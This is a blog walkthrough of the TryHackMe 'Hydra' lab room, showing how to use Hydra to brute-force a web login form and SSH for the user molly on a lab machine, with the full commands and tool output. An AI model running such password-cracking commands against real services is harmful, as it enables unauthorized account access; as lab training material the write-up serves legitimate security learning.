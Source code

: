 ```yaml
---
title: TryHackMe Hydra
date: 2021-07-03T20:14:32+05:30
lastmod: 2021-07-03T20:14:32+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/blog.png

categories:
  - TryHackMe
tags:
  - tryhackme
  - rooms
  - thm
  - hydra

draft: false
description: TryHackMe Room hydra solved by Animesh Roy. this is a walkthough. read more...

---
```

## Hydra

> Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials.

## Task 01: Hydra Introduction

Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

### Installing Hydra

If you're using Kali Linux, hydra is pre-installed. Otherwise you can download it here: https://github.com/vanhauser-thc/thc-hydra

---

## Task 02:  Using Hydra

* Hydra Commands

The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

`hydra -l user -P passlist.txt ftp://ip.add.re.ss`

* SSH
  
`hydra -l <username> -P <full path to pass> ip -t 4 ssh`

![hydra-options](https://i.imgur.com/D71vkKM.png)

* Post Web Form
We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, or simply view the source code.

Below is an example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> ip http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

![hydra-web](https://i.imgur.com/vC3ZU4E.png)

### 2.1

Use Hydra to bruteforce molly's web password. What is flag 1?

* CMD to run
  
  ` hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.139.138  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" `

  ```bash
     root@Machine:~# hydra -l molly -P /usr/share/wordlists/rockyou.txt [ip]  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
     Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

     Hydra (http://www.thc.org/thc-hydra) starting at 2021-07-03 15:58:06
     [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
     [DATA] attacking http-post-form://10.10.139.138:80//login:username=^USER^&password=^PASS^:F=incorrect
     [80][http-post-form] host: 10.10.139.138   login: molly   password: ********
     1 of 1 target successfully completed, 1 valid password found
     Hydra (http://www.thc.org/thc-hydra) finished at 2021-07-03 15:58:11
     ```

* use the password and user name to login to website, Flag is in HomePage

### 2.2

Use Hydra to bruteforce molly's SSH password. What is flag 2?

* cmd to run

     ```bash
     root@machine:~# hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.139.138 -t 4 ssh
     Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

     Hydra (http://www.thc.org/thc-hydra) starting at 2021-07-03 16:01:43
     [DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
     [DATA] attacking ssh://10.10.139.138:22/
     [22][ssh] host: 10.10.139.138   login: molly   password: *********
     1 of 1 target successfully completed, 1 valid password found
     Hydra (http://www.thc.org/thc-hydra) finished at 2021-07-03 16:02:10
     ```
  
* SSH into the box by running `ssh molly@ip` and use the password you found. flag is in home dir `cat ~/flag2*`

---

<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
